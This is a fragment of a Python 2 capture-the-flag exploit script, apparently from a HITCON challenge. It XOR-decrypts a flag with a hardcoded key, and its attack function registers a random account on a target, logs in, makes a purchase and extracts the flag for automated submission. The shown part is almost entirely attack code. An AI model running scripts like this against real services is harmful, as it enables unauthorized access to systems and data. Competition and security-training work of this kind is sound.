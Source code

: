 ```python
    key = "StrongSecretKeyForDeveloping >.^".encode()

    def dec(key, byte):
        flag = ""
        n1 = len(key)
        n2 = len(byte)
        n = max(n1, n2)
        # for ($i = 0; $i < $n; $i++) {
        # $out.= chr(ord($key[$i % $n1]) ^ ord($string[$i % $n2]));
        # }
        # return $out;
        i = 0
        while i < n:
            a = ord(key[i % n1]) ^ ord(byte[i % n2])
            flag += chr(a)
            i += 1
        print(flag)
        # out
        return flag

    data = res[16 * 3 + 8:16 * 3 + 8 + 32]
    # print(data)
    flag = dec(key, data)
    return flag


def vulnerable_attack(target, target_port, cmd):
    '''
    '''
    try:
        salt = ''.join(random.sample(string.ascii_letters + string.digits, 8))
        username = 'moxiaoxi' + salt
        password = 'moxiaoxi'
        register(target, username, password)
        login(target, username, password)
        p = buy(target, name='JPM', note='1', amount='1', hash='sha1')
        res = get_data(target, p)
        flag = exp(res)
        if "HITCON" in flag:
            debug_print(flag)
            flag = cmd_prefix + flag + cmd_postfix
        else:
            flag = 'get flag error'
        return flag
    except Exception, e:
        debug_print(traceback.format_exc())
        dump_error("attack failed", target, "vulnerable attack")
        res = "error"
    return res

```

